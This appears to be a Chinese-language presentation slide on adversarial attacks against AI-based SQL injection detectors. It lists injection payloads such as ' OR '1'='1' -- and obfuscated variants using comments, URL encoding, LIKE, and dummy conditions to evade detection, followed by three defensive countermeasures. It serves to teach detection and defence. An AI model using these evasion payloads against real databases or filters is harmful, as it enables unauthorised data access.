

# 攻击AI的手段-对抗样本攻击
原始注入语句：' OR '1'='1' --
混淆后的版本：' OR '1'/**/='1' --
通过在='1'之间插入注释/**/来混淆语句。

原始注入语句：' OR '1'='1' --
Unicode混淆后的版本：%27%20OR%201%3D1%20--
在这种情况下，%27代表单引号（'），%20代表空格。

SELECT * FROM users WHERE username = '' OR 1=1 --
使用替代关键词：SELECT * FROM users WHERE username = '' OR 1 LIKE 1 --
这里1 LIKE 1替代了1=1。

原始注入：' OR 1=1 --
分解后的版本：' OR 1=0 OR 1=1 --
增加了无意义的条件1=0来迷惑检测系统。
1.大量样本进行学习
2.对对抗样本进行收集和学习
3.数据预处理和标准化，去除无效注释或进行转码
161